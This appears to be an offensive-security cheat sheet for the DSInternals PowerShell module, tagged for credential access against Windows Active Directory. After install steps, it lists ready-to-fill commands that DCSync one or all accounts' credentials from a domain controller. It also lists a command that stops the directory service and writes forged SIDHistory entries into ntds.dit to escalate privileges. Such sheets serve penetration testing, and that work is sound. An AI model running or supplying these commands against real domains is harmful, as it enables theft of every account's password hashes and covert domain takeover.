 # DSInternals

% DSInternals, , Active directory
#plateform/windows  #target/local  #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 

## install manual
```powershell
Unblock-File <dsinternal>.zip
expand-archive <dsinternal>.zip -DestinationPath C:\Windows\system32\WindowsPowerShell\v1.0\Modules
```


## dcsync user
```powershell
Get-ADReplAccount -SamAccountName <user> -Server '<dc_name>'
```

## dcsync all
```powershell
Get-ADReplAccount -All -Server '<dc_name>'
```


## Modify SIDHisory
```powershell
Stop-service NTDS -force && Add-ADDBSidHistory -samaccountname <account> -sidhistory '<sid_1>','<sid_2>' -DBPath C:\Windows\ntds\ntds.dit -force && Start-service NTDS
```